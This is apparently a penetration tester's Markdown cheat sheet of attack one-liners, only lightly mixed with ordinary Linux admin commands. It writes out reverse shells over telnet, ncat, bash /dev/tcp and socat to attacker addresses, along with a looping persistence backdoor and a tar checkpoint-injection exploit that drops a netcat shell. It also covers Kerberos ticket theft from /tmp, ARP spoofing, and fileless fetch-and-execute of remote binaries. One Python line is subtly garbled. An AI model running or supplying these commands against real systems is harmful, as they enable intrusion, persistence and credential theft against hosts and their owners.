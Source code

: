 - Reverse shell one-liners:
	- Telnet:
		- `mkfifo /tmp/cth; sh -i 2>&1 </tmp/cth | telnet <atkIP> 8443 >/tmp/cth; rm /tmp/cth`
		- `(touch /dev/shm/cth; sleep 60; rm -f /dev/shm/cth) & tail -f /dev/shm/cth | sh -i 2>&1 | telnet <atkIP> <port> >/dev/shm/cth`
	- Encrypted
		- Ncat
			1. Listener: `ncat —ssl -nlvp 443`
			2. Connector: `ncat —ssl <listener ip> 443 -e /bin/bash`
	- Quick persistence
		- `while :; do setsid bash -i &>/dev/tcp/1.1.1.1/8443 0>&1; sleep 120; done &>/dev/null &`
- Find all files owned by a user in Linux, disregarding /proc and /sys files
	- `find / -user <username> -ls 2>/dev/null | grep -v '/proc\| /run\| /sys'`
- Log everything that happens in a terminal/tmux pane
	- `script <filename.log>`
- Download files
	- BASH only: `bash -c "cat < /dev/tcp/10.13.10.69/18110" > nmap`
	- Encrypted:
		- Encrypt: `openssl enc -aes-256-cbc -pbkdf2 -k strongPass <input.txt >input.txt.enc`
		- Decrypt: `openssl enc -d -aes-256-cbc -pbkdf2 -k strongPass <input.txt.enc >input.txt`
- TAR exploit:
	```BASH
	echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
	echo "" > "--checkpoint-action=exec=sh shell.sh"
	echo "" > --checkpoint=1
	tar cf archive.tar *
	```
- Upgrade reverse shell
	- Using socat (upload static binary)
		- On target: ```socat file:`tty`,raw,echo=0 tcp-listen:4444```
		- On attacker: ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attackerip>:4444```
- Extract Kerberos ccache files
	- ccache files for logged-in users are located in /tmp
		- `scp root@10.10.120.45:/tmp/krb5cc\_613405103\_HEquhW .`
	- Convert ccache file into .kirbi file using impacket
		- `impacket-ticketConverter krb5cc\_613405103\_HEquhW amitchell.kirbi`
	- kerberos_ticket_use to leverage the TGT
- View neighbor IPs (useful for docker containers)
	- `ip ne`
	- `"ip -br -c ne`
- Generate public RSA key from private
	- `ssh-keygen -y -e -f id_rsa`
- IPtables
	- `iptables -A INPUT -s <RHOST> -p tcp --dport <LPORT> -j ACCEPT`
		- Omit `-s` to open a port to connections from all origins
		- `--dport` can accept a range of ports as well as single ports
- ARP
	- See local ARP cache
		- `arp -n`
	- ARP spoof/poisoning
		- `./arplayer spoof -I wlp1s0 -vvv -F -b 192.168.1.101 192.168.1.1`
	- ARP scan
		- `./arplayer scan -I wlp1s0 -w 10 -t 1000`
- NFS Shares
	- Display the NFS server's export list of mountable shares
		- `showmount -e <ip>`
	- List both the client hostname or IP address and mounted directory
		- `showmount -a <ip>`
	- Mount an NFS share located at IP to /mnt/nfs
		- `sudo mount -t nfs <ip>:<share name> /mnt/nfs`
- ss
	- Show listening ports like `netstat -anp tcp`
		- `ss -tulpn`
- Rename terminal
	```BASH
	#!bin/bash
	echo -ne "\033]0;${1}\007"
	```

- Using shar to pack files/tools for target:
	1. Pack files on attack machine: `shar *.exe *.kirbi >a.shar`
	2. Execute on target to extract: `chmod +x a.shar; ./a.shar`

- Propertly destroy file instead of just deleting:
	- `shred -z cthulhu.txt`

- Run files without touching disk
	- Python
		- `python3 -c 'import os; import urllib.request; d = urllib.request.urlopen("https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true"); fd = os.memfd_create("foo"); os.write(fd, http://d.read()); p = f"/proc/self/fd/{fd}"; os.execve(p, [p, "-h"],{})'`
	- No python:
		- [Ippsec video on LOL](https://www.youtube.com/watch?v=MaBurwnrI4s)
